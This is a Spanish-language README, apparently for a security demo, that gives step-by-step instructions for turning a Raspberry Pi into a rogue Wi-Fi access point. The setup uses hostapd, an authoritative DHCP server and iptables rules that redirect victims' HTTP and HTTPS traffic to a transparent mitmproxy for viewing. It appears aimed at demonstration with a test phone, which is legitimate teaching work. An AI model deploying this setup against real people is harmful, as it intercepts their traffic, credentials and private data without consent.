 Demo4
=====
En esta otra demo se utiliza una Raspberry PI 3 (otros modelos pueden estar soportados) para conectar los dispositivos
de los usuarios para realizar una ataque mitm a los mismos.

Esta misma documentación se encuentra basada en: https://www.dinofizzotti.com/blog/2022-04-24-running-a-man-in-the-middle-proxy-on-a-raspberry-pi-4/
Ten en cuenta que según tu entorno, los cambios de la distribución y otros factores, tendrás que realizar cambios a lo
que se encuentra en esta documentación.

Requisitos
----------
Se necesitan los siguientes elementos para realizar esta demo:

* Una **Raspberry PI**. Se recomienda modelo 3B+ o superior.
* **Alimentador de corriente**. Se recomienda oficial para evitar inestabilidad y corrupción de la tarjeta.
* Tarjeta **microSD** para el sistema operativo con **raspbian** a la última versión.
* **Adaptador Wifi** USB adicional. No se requiere que tenga modo AP, pero mejor si lo tiene (si se quiere utilizar
  en lugar del incorporado para la víctima).

Aunque no es imprescindible, se recomienda:

* **Conexión alámbrica** a través de cable RJ45 para la configuración. La conexión puede realizarse usando ssh.
* **Conexión a monitor** a través de cable HDMI, para la depuración.
* **Teclado** para interactuar por si fuese necesario.

Preparación del sistema
-----------------------
Lo primero es actualizar el sistema e instalar los paquetes requeridos.

.. code-block:: bash

    ~ # apt update
    ~ # apt upgrade

Tras actualizar, se recomienda reiniciar el sistema. Después instalar los paquetes necesarios:

.. code-block:: bash

    ~ # apt install dhcpcd isc-dhcp-server hostapd iptables python3-pip python3-venv

Ten en cuenta que según el *adaptador wifi* que utilices necesitarás también instalar paquetes adicionales. En mi caso
con Realtek:

.. code-block:: bash

    ~ # apt install firmware-realtek

Entre los paquetes instalados encontramos:

* **dhcpcd:** será el cliente DHCP que usará el adaptador wifi que dará Internet a nuestra RPI.
* **isc-dhcp-server:** servidor DHCP que usará el adaptador wifi al que se conectará la víctima.
* **hostapd:** permite crear la red Access Point de las víctimas y su autenticación.
* **iptables:** permite el enrutamiento para que el adaptador wifi de la víctima pase por mitmproxy.
* **python3-pip:** instalador de paquetes de Python. Lo necesitaremos para instalar *mitmproxy*.
* **python3-venv:** creador de entornos virtuales de Python. Lo necesitaremos para crear el entorno de *mitmproxy*.

Establecer conectores inalámbricos
----------------------------------
Aunque es opcional, recomiendo definir los nombres de los identificadores wifi, ya que podrían intercambiarse los
nombres. Podemos ver estos usando:

.. code-block:: bash

~ # ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
           valid_lft forever preferred_lft forever
        inet6 ::1/128 scope host
           valid_lft forever preferred_lft forever
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
        link/ether b8:27:eb:11:22:33 brd ff:ff:ff:ff:ff:ff
        inet 192.168.88.101/24 brd 192.168.88.255 scope global dynamic noprefixroute eth0
           valid_lft 506sec preferred_lft 431sec
        inet6 fe80::d629:bb3d:1122:3344/64 scope link
           valid_lft forever preferred_lft forever
    3: wlan1: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc mq state DOWN group default qlen 1000
        link/ether 00:f5:05:11:22:33 brd ff:ff:ff:ff:ff:ff
    4: wlan0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
        link/ether b8:27:eb:11:22:33 brd ff:ff:ff:ff:ff:ff
        inet 192.168.42.1/24 brd 192.168.42.255 scope global noprefixroute wlan0
           valid_lft forever preferred_lft forever
        inet6 fe80::f415:7aac:1122:3344/64 scope link
           valid_lft forever preferred_lft forever

Para establecerlos creamos el fichero ``/etc/udev/rules.d/10-network.rules`` y los definimos::

    # /etc/udev/rules.d/10-network.rules
    SUBSYSTEM=="net", ACTION=="add", ATTR{address}=="b8:27:eb:11:22:33", NAME="wlan0"
    SUBSYSTEM=="net", ACTION=="add", ATTR{address}=="00:f5:05:11:22:33", NAME="wlan1"

Si hace falta reiniciaremos nuestra RPI para que los identificadores tengan los nombres correctos.

Configuración de red Internet
-----------------------------
Lo primero es conseguir Internet en nuestra RPI a través de la red inalámbrica que hayamos escogido que hará esta
función. En mi caso, será el adaptador inalámbrico USB, identificado como *wlan1*. Para ello creamos el fichero
``/etc/network/interfaces.d/wlan1``, dejando que el sistema (``network.service``) lo configure por nosotros::

    # /etc/network/interfaces.d/wlan1
    allow-hotplug wlan1
    iface wlan1 inet dhcp
            wpa-ssid <ssid móvil que nos proporciona Internet>
            wpa-psk <clave móvil que nos proporciona Internet>


Configuración de red atacante
-----------------------------
Este es el paso más complicado. Configuraremos la red del atacante, para lo cual tendremos que crear una red, poniendo
nuestro Wifi como un Access Point (AP). También necesitamos un servidor DHCP que dé dirección a nuestras víctimas.

Lo primero configuraremos la red. Para ello copiamos el fichero de ejemplo de *hostapd* y lo modificaremos:

.. code-block:: bash

    ~ # cp /usr/share/doc/hostapd/examples/hostapd.conf /etc/hostapd/
    ~ # nano /etc/hostapd/hostapd.conf

En el fichero descomentaremos las líneas que necesitemos para dejar los siguientes valores::

    interface=wlan0
    driver=nl80211
    ssid=<nombre de nuestra red atacante>
    country_code=ES
    hw_mode=g
    channel=6
    macaddr_acl=0
    auth_algs=1
    wmm_enabled=0
    wpa=2
    wpa_passphrase=<clave de nuestra red atacante>
    wpa_key_mgmt=WPA-PSK
    wpa_pairwise=TKIP
    rsn_pairwise=CCMP

Ahora modificaremos el fichero ``/etc/default/hostapd`` para establecer el fichero de configuración que debe usar::

    # /etc/default/hostapd
    DAEMON_CONF="/etc/hostapd/hostapd.conf"

El servicio *hostapd* no inicia por defecto porque está enmascarado. Deberemos quitarle la máscara y activarlo:

.. code-block:: bash

    ~ # systemctl unmask hostapd.service
    ~ # systemctl enable hostapd.service

Ahora configuraremos el servidor dhcp. Para ello modificamos el fichero ``/etc/dhcp/dhcpd.conf`` y descomentaremos la
línea que dice ``authoritative``::

    # /etc/dhcp/dhcpd.conf

    # If this DHCP server is the official DHCP server for the local
    # network, the authoritative directive should be uncommented.
    authoritative;

Después añadiremos justo después la configuración de la red::

    # /etc/dhcp/dhcpd.conf
    # If this DHCP server is the official DHCP server for the local
    # network, the authoritative directive should be uncommented.
    authoritative;

    subnet 192.168.42.0 netmask 255.255.255.0 {
            range 192.168.42.10 192.168.42.250;
            option broadcast-address 192.168.42.255;
            option routers 192.168.42.1;
            option domain-name "local";
            option domain-name-servers 8.8.8.8, 8.8.4.4;
    }

Tras guardar, cambiamos la interfaz en la que trabajará el servidor DHCP, comentando la interfaz IPv6, editando el
fichero ``/etc/default/isc-dhcp-server``::

    # /etc/default/isc-dhcp-server
    INTERFACESv4="wlan0"
    #INTERFACESv6=""

En mi caso, ha sido necesario forzar que reintente el inicio del servicio en caso de error, ya que durante el arranque
del sistema cuando se inicia este servicio aún no está disponible la interfaz de red. Para ello editamos el servicio:

.. code-block:: bash

   systemctl edit isc-dhcp-server

Y ponemos en el nuevo fichero::

    [Service]
    # Type=forking
    Restart=always

Mitmproxy
---------
Para utilizar mitmproxy no utilizaremos *root*, ya que se considera inseguro. Para ello crearemos un nuevo usuario:

.. code-block:: bash

    ~ # adduser pi

Tras configurarlo, accedemos al mismo y a su directorio de trabajo:

.. code-block:: bash

    ~ # su pi
    ~ $ cd

Ahora, creamos un *virtualenv* para **mitmproxy** llamado *env* y lo instalamos en el mismo.

.. code-block:: bash

    ~ $ python3 -m venv env
    ~ $ ~/env/bin/pip install mitmproxy

Ahora volvemos al usuario *root*, ya sea escribiendo *exit* (y pulsando enter) en la terminal o pulsando *Ctrl+D*.
Crearemos el script que iniciará *mitmproxy* en ``/usr/local/bin/start_mitmweb.sh``:

.. code-block:: bash

    ~ # nano /usr/local/bin/start_mitmweb.sh

Pondremos como contenido::

    #!/bin/bash
    /home/pi/env/bin/mitmweb --mode transparent --web-port 9090 --web-host 0.0.0.0

Daremos permisos de ejecución al fichero usando:

.. code-block:: bash

    ~ # chmod +x /usr/local/bin/start_mitmweb.sh

Crearemos el servicio de systemd que iniciará este script en ``/etc/systemd/system/mitmweb.service``::

    # /etc/systemd/system/mitmweb.service

    [Unit]
    Description=mitmweb service
    After=network.target

    [Service]
    Type=simple
    User=pi
    ExecStart=/usr/local/bin/start_mitmweb.sh
    Restart=always
    RestartSec=5

    [Install]
    WantedBy=multi-user.target

Ahora lo habilitamos para que se inicie con el sistema:

.. code-block:: bash

    ~ # systemctl enable mitmweb.service

Iptables
--------
Podemos utilizar ``iptables-save`` y ``iptables-restore`` para guardar y restaurar las reglas, pero en mi caso por
sencillez he preferido crear un servicio de systemd que las añada cada vez, ya que así puedo editarlas más fácilmente.
Para ello crearemos el script que añadirá las reglas en ``/usr/local/bin/mitmproxy-iptables.sh``:

.. code-block:: bash

    ~ # nano /usr/local/bin/mitmproxy-iptables.sh

Pondremos como contenido::

    #!/usr/bin/env bash
    iptables -A FORWARD -i wlan1 -o wlan0 -m state --state RELATED,ESTABLISHED -j ACCEPT
    iptables -A FORWARD -i wlan0 -o wlan1 -j ACCEPT
    iptables -t nat -A POSTROUTING -o wlan1 -j MASQUERADE
    iptables -t nat -A PREROUTING -i wlan0 -p tcp -m tcp --dport 80 -j REDIRECT --to-ports 8080
    iptables -t nat -A PREROUTING -i wlan0 -p tcp -m tcp --dport 443 -j REDIRECT --to-ports 8080

Estas reglas se encargan de enrutar el tráfico de *wlan0* a través de los puertos de *mitmproxy*. Después añadimos
permisos de ejecución al script:

.. code-block:: bash

    ~ # chmod +x /usr/local/bin/mitmproxy-iptables.sh

Crearemos el servicio de systemd que iniciará este script en ``/etc/systemd/system/mitmproxy-iptables.service``::

    # /etc/systemd/system/mitmproxy-iptables.service

    [Unit]
    Description=mitmproxy iptables service
    After=network.target

    [Service]
    Type=simple
    User=root
    ExecStart=/usr/local/bin/mitmproxy-iptables.sh
    Restart=no
    RestartSec=5

    [Install]
    WantedBy=multi-user.target

Ahora lo habilitamos para que se inicie con el sistema:

.. code-block:: bash

    ~ # systemctl enable mitmproxy-iptables.service

Por defecto nuestro sistema no permite redirigir el tráfico de una IP a otra, por lo que tendremos que habilitarlo en
el fichero ``/etc/sysctl.conf``::

    # /etc/sysctl.conf
    # Descomentar la siguiente línea para activar la redirección de paquetes para IPv4
    net.ipv4.ip_forward=1

Demo
----
Reiniciamos nuestra RPI y... si todo va bien, ¡deberíamos tenerlo funcionando! Recuerda tener previamente iniciada la
red Wifi que dará Internet a tu RPI. Para comprobar que funcione correctamente, con un dispositivo móvil que hará de
víctima, busca el nombre de red que has elegido y pon la contraseña.

Es probable que el móvil diga que dicha red tiene conectividad limitada. Debe ignorarse el aviso. Esto es porque
detecta que las conexiones HTTPS no están dando como respuesta un certificado válido. En el ordenador, el cual estará
conectado a la misma red que ofrece Internet a tu RPI, deberás poner la IP de esta (con la dirección que tiene en la
interfaz que da Internet) seguido del puerto "9090" en el navegador para ver las solicitudes::

    http://<ip RPI>:9090

